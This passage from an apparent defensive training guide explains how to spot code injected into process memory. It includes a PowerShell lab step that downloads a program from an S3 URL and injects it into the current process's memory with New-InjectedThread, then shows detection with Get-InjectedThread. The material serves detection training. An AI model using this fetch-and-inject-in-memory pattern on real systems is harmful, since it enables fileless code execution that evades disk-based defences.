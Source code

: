 ## Identifying Injected Code

There are a [number of different memory injection techniques](./Phishing%20To%20Injection%20Techniques.md#memory-injection-techniques) that can also be used to run untrusted code inside the memory of a process.

When EXEs and DLLs are loaded into memory to run, they should have an associated file path which corresponds to their actual location on the disk. However, it is possible to load a file into memory from over the network so that the program executing is never written to disk.

We can simulate this technique by downloading the benign program `GoTeam.exe` and writing it into memory with the `New-InjectedThread` function from Jared Adkinson's [PSReflect-Functions](https://github.com/jaredcatkinson/PSReflect-Functions):

```
$uri = 'https://s3.amazonaws.com/exercise-pcap-download-link/GoTeam.exe'
$exe = Invoke-WebRequest -Uri $uri 
New-InjectedThread -Id $pid -ByteArray $exe.Content
```

The `New-InjectedThread` function allocates PAGE_EXECUTE_READWRITE (RWX) memory in the process and writes the bytes of the program to it: 

![](images/Obtaining%20Artifacts%20From%20Memory/image026.png)<br><br>

Open up an admin PowerShell window and detect this with the `Get-InjectedThread` function:

![](images/Obtaining%20Artifacts%20From%20Memory/image027.png)<br><br>
